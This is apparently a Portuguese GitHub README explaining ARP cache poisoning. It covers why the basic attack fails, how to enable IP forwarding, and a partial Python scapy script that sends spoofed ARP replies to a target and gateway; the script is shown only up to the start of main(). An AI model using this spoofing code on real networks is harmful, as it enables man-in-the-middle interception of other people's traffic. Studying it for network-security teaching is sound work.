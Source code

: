 # Problemas

Porém, só com isso, esse ataque ainda não é efetivo por 2 motivos:

1. Os pacotes saem do gateway e chegam no atacante, mas não vão até a vítima, assim como saem da vítima e chegam no atacante, mas não vão pro gateway. É preciso fazer com que o atacante encaminhe os pacotes para o iP certo quando passam por ele.

2. A arp cache possui um tempo de verificação de linhas obsoletas, fazendo novos arp requests para atualizá-la. Após o ataque ser feito uma vez, depois de um curto período de tempo, a cache voltaria ao normal.

# Soluções

1. Para encaminhar pacotes para os devidos IP's exitem 2 maneiras:

Pelo próprio kernel
```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```
ou

Utilizando o iptables
```bash
sudo apt install iptables
```

2. Para burlar o refresh da arp cache, o atacante pode enviar continuamente fake replys para sempre que um request for feito, já haja um fakereply pronto para responder. E isso pode ser feito com um [script](https://github.com/guilhermehiromoto/arp-cache-poisoning/blob/master/arp.py) em python.

```python
from scapy.all import *
import time

def getmac(targetip):
    arppacket = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
    targetmac = srp(arppacket)[0][0][1].hwsrc
    return targetmac

def poisonarpcache(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed)

def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet)
    print ("ARP Table restored to normal for", targetip)

def main():
    targetip = input("Enter Target IP:")
    gatewayip = input("Enter Gateway IP:")
    
    try:
        targetmac = getmac(targetip)
    except:
         print("Target machine did not respond to ARP broadcast")
         quit()
    
    try:
        gatewaymac= getmac(gatewayip)
    except:
         print("Gateway is unreachable")
         quit()
    
```